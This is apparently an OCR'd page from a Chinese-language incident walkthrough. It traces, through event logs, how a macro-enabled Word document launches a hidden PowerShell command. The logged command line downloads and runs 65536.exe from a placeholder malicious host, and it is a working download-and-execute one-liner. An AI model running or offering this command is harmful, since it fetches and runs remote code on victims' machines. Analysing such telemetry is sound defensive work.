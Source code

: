 > 用户打开了6E713D2A.doc文件

```
event_data.Image: C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE
event_data.TargetFilename: C:\Users\PhisedUser\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\POHSQH12\6E713D2A.doc
```

> 带有宏的Word恶意文档被启动，并运行了一个powershell命令，该命令正在尝试从http://Malicioussite.su/z3FRJz下载一个名为65536.exe的可执行文件。

```
event_data.ParentImage: C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE
event_data.ParentCommandLine: “C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE” -Embedding
event_data.Image: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
event_data.CommandLine: powershell -WindowStyle Hidden $webclient = new-object System.Net.WebClient;$myurls = ‘http://Malicioussite.su/z3FRJz’.Split(‘,’);$path = $env:temp + ‘65536.exe’;foreach($myurl in $myurls){try{$webclient.DownloadFile($myurl.ToString(), $path);Start-Process $path;break;}catch{}}
event_data.User: PhisedUser
```

> Powershell将65536.exe下载到C:\Users\PhisedUser\AppData\Local\Temp

```
event_id: 11
event_data.Image: C:\Windows\SysWOW64\Windows\PowerShell\v1.0\powershell.exe
event_data.TargetFilename: C:\Users\PhisedUser\AppData\Local\Temp\65536.exe
```
